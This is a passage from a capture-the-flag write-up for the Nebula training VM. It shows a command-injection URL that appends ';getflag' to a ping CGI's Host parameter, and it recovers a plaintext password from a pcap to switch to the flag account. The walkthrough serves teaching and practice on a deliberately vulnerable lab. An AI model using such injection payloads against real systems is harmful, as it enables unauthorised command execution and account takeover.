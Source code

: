 ```bash
Firefox URL bar: http://10.0.2.14:7007/index.cgi?Host=127.0.0.1%3Bgetflag

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.011 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.025 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.024 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.011/0.020/0.025/0.006 ms
You have successfully executed getflag on a target account
```

As the output is just plain text I did not bother with a screenshot, but I think it's clear what I did there. As in level 03 we could also inject a command that compiles a `setuid` binary to gain a shell.

## Level 08

This time we encounter a package capture file:

```bash
level08@nebula:/home/flag08$ ls -la
total 14
drwxr-x--- 2 flag08 level08   86 2012-08-19 03:07 .
drwxr-xr-x 1 root   root     100 2012-08-27 07:18 ..
-rw-r--r-- 1 flag08 flag08   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag08 flag08  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
-rw-r--r-- 1 flag08 flag08   675 2011-05-18 02:54 .profile
level08@nebula:/home/flag08$ exit
root@kali:~# scp level08@10.0.2.14:~flag08/capture.pcap .
```

We can download it and open it in Wireshark to see if it contains any captured plaintext password transmissions. Wireshark makes this very easy with the `Follow > TCP Stream` function:

{% asset_img "wireshark.png" "Wireshark Follow TCP Stream" %}

The login name `l.le.ev.ve.el.l8.8` suggest that the keypresses are all transmitted, including backspaces which seem to be represented by dots. This means that the password is not `backdoor...00Rm8.ate` but rather `backd00Rmate`.

```bash
level08@nebula:~$ su flag08
Password: 
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level 09

To solve level 09 `preg_replace` in the following PHP script has to be exploited:
